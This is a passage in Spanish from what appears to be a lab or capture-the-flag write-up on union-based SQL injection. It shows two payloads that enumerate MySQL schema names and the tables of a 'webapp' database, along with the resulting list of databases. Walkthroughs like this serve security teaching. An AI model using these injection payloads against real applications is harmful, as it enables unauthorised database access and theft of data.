 Procederemos a enumerar los nombres de las bases de datos `seven' union select 1,schema_name,3,4 from information_schema.schemata-- `

![20231121170009.png](20231121170009.png)

Nos encontramos con las siguientes bases de datos:

```php
information_schema
mysql
performance_schema
sys
webapp
```

La que nos parece interesante es `webapp`, por lo que enumeraremos las tablas que contiene esta base de datos.
```php
seven' union select 1,table_name,3,4 from information_schema.tables where table_schema='webapp'-- -
```

![20231121170329.png](20231121170329.png)
